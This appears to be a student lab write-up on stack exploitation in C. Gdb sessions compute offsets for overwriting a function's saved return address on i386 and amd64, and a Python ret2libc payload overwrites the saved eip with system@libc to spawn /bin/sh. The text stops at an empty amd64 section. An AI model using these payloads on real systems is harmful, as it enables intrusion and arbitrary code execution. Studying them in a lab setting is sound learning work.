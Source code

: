   
## 1- Rewriting the saved eip

for i386, we have : 

```
(gdb) info frame  
Stack level 0, frame at 0xffffcbc4:  
eip = 0x56556193 in foo (rewrite_saved_eip-1.c:5); saved eip = 0x565561e4  
called by frame at 0xffffcc00  
source language c.  
Arglist at 0xffffcbbc, args: a=1, b=97 'a', c=2.5  
Locals at 0xffffcbbc, Previous frame's sp is 0xffffcbc4  
Saved registers:  
 ebp at 0xffffcbbc, eip at 0xffffcbc0  
(gdb) p /x &buffer  
$1 = 0xffffcbb0
(gdb) p /x 0xffffcbc0 - 0xffffcbb0
$1 = 0x10
```
So we have to modify : 
`ret = (int *)(buffer + 0);`
by 
`ret = (int *)(buffer + 16);`

Now, when we do `(gdb) disas main` : 

```
.....
0x565561df <+53>:    call   0x5655617d <foo>
0x565561e4 <+58>:    add    $0xc,%esp
0x565561e7 <+61>:    movl   $0x1,-0xc(%ebp)
0x565561ee <+68>:    sub    $0x8,%esp
0x565561f1 <+71>:    push   -0xc(%ebp)
0x565561f4 <+74>:    lea    -0x1230(%ebx),%eax
0x565561fa <+80>:    push   %eax
0x565561fb <+81>:    call   0x56556040 <printf@plt>
.....
```
so to jump from +61 to +71, we need to do : 
`(*ret) += 10;`


For amd64, we have : 

```
(gdb) info frame  
Stack level 0, frame at 0x7fffffffd9b0:  
rip = 0x55555555514a in foo (rewrite_saved_eip-1.c:5); saved rip = 0x555555555194  
called by frame at 0x7fffffffd9d0  
source language c.  
Arglist at 0x7fffffffd9a0, args: a=1, b=97 'a', c=2.5  
Locals at 0x7fffffffd9a0, Previous frame's sp is 0x7fffffffd9b0  
Saved registers:  
 rbp at 0x7fffffffd9a0, rip at 0x7fffffffd9a8  
(gdb) p /x &buffer  
$1 = 0x7fffffffd990  
(gdb) p /x 0x7fffffffd9a8 - 0x7fffffffd990  
$2 = 0x18
```
so we modify `ret = (int *)(buffer + 0);` by `ret = (int *)(buffer + 24);`

then we do `(gdb) disas main`
```
.....
0x000055555555518f <+35>:    call   0x555555555139 <foo>  
0x0000555555555194 <+40>:    movl   $0x1,-0x4(%rbp)  
0x000055555555519b <+47>:    mov    -0x4(%rbp),%eax  
0x000055555555519e <+50>:    mov    %eax,%esi  
0x00005555555551a0 <+52>:    lea    0xe5d(%rip),%rax
.....
```
and we find we have to jump 7 bytes.
`(*ret) += 7;

for i386, we have : 
```
(gdb) info frame  
Stack level 0, frame at 0xffffc9d0:  
eip = 0x5655618d in foo (rewrite_saved_eip-2.c:5); saved eip = 0x565561eb  
called by frame at 0xffffca00  
source language c.  
Arglist at 0xffffc9c8, args:    
Locals at 0xffffc9c8, Previous frame's sp is 0xffffc9d0  
Saved registers:  
 ebp at 0xffffc9c8, eip at 0xffffc9cc  
(gdb) p /x &buffer  
$1 = 0xffffc9a4  
(gdb) p /d &buffer  
$2 = -13916  
(gdb) p /x &buffer  
$3 = 0xffffc9a4  
(gdb) p /x 0xffffc9cc - 0xffffc9a4  
$4 = 0x28  
(gdb) p /d 0xffffc9cc - 0xffffc9a4  
$5 = 40
```
since it is an int buffer we do ` ret = buffer + 10;` since it is 40 bytes and an int is 4 bytes
```
  0x565561e9 <+45>:    call   0x5655617d <foo>  
  0x565561ee <+50>:    addl   $0x1,-0xc(%ebp)  
  0x565561f2 <+54>:    cmpl   $0xe,-0xc(%ebp)  
  0x565561f6 <+58>:    jle    0x565561e9 <main+45>  
  0x565561f8 <+60>:    movl   $0x1,-0xc(%ebp)  
  0x565561ff <+67>:    sub    $0x8,%esp
```
so we do `  (*ret) += 17;`

now to change i to 10 
```
(gdb) info frame  
Stack level 0, frame at 0xffffca00:  
eip = 0x565561d9 in main (rewrite_saved_eip-2.c:13); saved eip = 0xf7d6b357  
source language c.  
Arglist at 0xffffc9e8, args:    
Locals at 0xffffc9e8, Previous frame's sp is 0xffffca00  
Saved registers:  
 ebx at 0xffffc9e4, ebp at 0xffffc9e8, eip at 0xffffc9fc  
(gdb) p /d 0xffffc9c8 - 0xffffc9a4  
$1 = 36  
(gdb) p /x &buffer  
$2 = 0xf7f7ae28  
(gdb) p /x 0xf7f7ae28 - 0xffffca00  
$3 = 0xf7f7e428  
(gdb) p /d 0xf7f7ae28 - 0xffffca00  
$4 = -134749144  
(gdb) p /x &i  
$5 = 0xffffc9dc  
(gdb) b foo  
Breakpoint 2 at 0x5655618d: file rewrite_saved_eip-2.c, line 5.  
(gdb) c  
Continuing.  
  
Breakpoint 2, foo () at rewrite_saved_eip-2.c:5  
5         ret = buffer + 10;  
(gdb) p /x &buffer  
$6 = 0xffffc9a4  
(gdb) p /x 0xffffc9a4 - 0xffffc9dc  
$7 = 0xffffffc8  
(gdb) p /d 0xffffc9a4 - 0xffffc9dc  
$8 = -56  
(gdb) p /d  0xffffc9dc - 0xffffc9a4  
$9 = 56
```
56 bytes is 14 int so we do `ret = buffer + 14;`

For amd64, we have : 
```
#include <stdio.h>
int foo(void) {
  int buffer[8];
  int *ret;
  // ret = buffer + 10;
  ret = buffer + 14;
  (*ret) += 17;
  // ret = buffer + 14;
  ret = buffer + 19;
  (*ret) = 10;
  return 0;
}

int main(void) {
  int i = 0;
  for (i = 0; i < 15; i++) foo();
  i = 1;
  printf("%d\n", i);
  return 0;
}
```

## 2- stack buffer overflow exploitation
### for i386, we have : 
here is the payload injected into the buffer 
```python
#!/usr/bin/python
import sys
# Padding with 'A's
buffer = b'A' * 76
# Set saved eip to system@libc
buffer += b'\x50\xa1\xd9\xf7'

# Set to exit@libc
buffer += b'\xc0\x50\xd8\xf7'


# Set argument to "/bin/sh"@libc
buffer += b'\x52\x3e\xf1\xf7'

# Set exit argument
buffer += b'\x00\x00\x00\x00'
# Printing out the buffer
sys.stdout.buffer.write(buffer)
```

### For amd64, we have : 